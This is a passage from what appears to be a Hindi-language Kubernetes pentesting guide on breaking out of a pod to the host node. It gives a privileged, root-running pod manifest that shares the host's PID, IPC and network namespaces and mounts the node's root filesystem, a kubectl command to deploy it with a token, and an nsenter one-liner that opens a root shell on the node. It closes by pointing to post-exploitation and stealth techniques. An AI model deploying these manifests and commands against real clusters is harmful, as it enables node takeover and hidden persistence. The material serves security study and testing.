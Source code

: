```yaml
command:
- "sleep"
- "3600" # adjust this as needed -- use only as long as you need
imagePullPolicy: IfNotPresent
name: ubuntu
securityContext:
allowPrivilegeEscalation: true
privileged: true
#capabilities:
#  add: ["NET_ADMIN", "SYS_ADMIN"] # add the capabilities you need https://man7.org/linux/man-pages/man7/capabilities.7.html
runAsUser: 0 # run as root (or any other user)
volumeMounts:
- mountPath: /host
name: host-volume
restartPolicy: Never # we want to be intentional about running this pod
hostIPC: true # Use the host's ipc namespace https://www.man7.org/linux/man-pages/man7/ipc_namespaces.7.html
hostNetwork: true # Use the host's network namespace https://www.man7.org/linux/man-pages/man7/network_namespaces.7.html
hostPID: true # Use the host's pid namespace https://man7.org/linux/man-pages/man7/pid_namespaces.7.htmlpe_
volumes:
- name: host-volume
hostPath:
path: /
```
{% endcode %}

पॉड बनाएँ:
```bash
kubectl --token $token create -f mount_root.yaml
```
इस [ट्वीट](https://twitter.com/mauilion/status/1129468485480751104) से एक-लाइनर और कुछ जोड़ों के साथ:
```bash
kubectl run r00t --restart=Never -ti --rm --image lol --overrides '{"spec":{"hostPID": true, "containers":[{"name":"1","image":"alpine","command":["nsenter","--mount=/proc/1/ns/mnt","--","/bin/bash"],"stdin": true,"tty":true,"imagePullPolicy":"IfNotPresent","securityContext":{"privileged":true}}]}}'
```
अब जब आप नोड से बाहर निकल सकते हैं, तो पोस्ट-एक्सप्लोइटेशन तकनीकों की जांच करें:

#### छिपाव

शायद आप **छिपाव** करना चाहेंगे, निम्नलिखित पृष्ठों में आप देख सकते हैं कि आप किसे एक्सेस कर सकते हैं अगर आप केवल पिछले टेम्पलेट में उल्लिखित कुछ विशेषाधिकारों को सक्षम करके एक पॉड बनाते हैं:

* **विशेषाधिकार + hostPID**
* **केवल विशेषाधिकार**
* **hostPath**
* **hostPID**
* **hostNetwork**
* **hostIPC**
